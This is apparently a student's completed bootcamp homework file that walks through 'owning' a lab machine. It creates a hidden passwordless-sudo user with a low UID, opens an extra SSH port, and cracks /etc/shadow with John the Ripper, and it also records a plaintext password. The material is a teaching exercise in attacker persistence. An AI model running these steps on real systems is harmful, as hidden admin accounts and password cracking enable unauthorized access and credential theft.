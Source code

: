 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser --no-create-home sysd

2. Give your secret user a password: 
    - When prompted for password for user, enter the password. I did SupaMar10

3. Give your secret user a system UID < 1000:
    - usermod -u 202 sysd

4. Give your secret user the same GID:
   - groupmod -g 202 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
   -  in the sudoers file, append at the end: 
   -  sysd ALL = NOPASSWD: ALL

6. Test that `sudo` access works without your password:
   -  logged in to server as sysd in a new terminal, just to be safe if I made any syntax errors in sudoers

    ```bash
    ssh sysadmin@192.168.6.105 -p 22
    entered password
    sudo su sysd 
    sudo -l
    sudo -u root whoami
    ```
    Both output expected results from someone with sudo access, without asking for a password.

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    uncomment #Port 22
    
    then add below:
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `/etc/init.d/ssh restart`

2. Exit the `root` account:
    - `exit`
    - needed to be done a couple of times

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

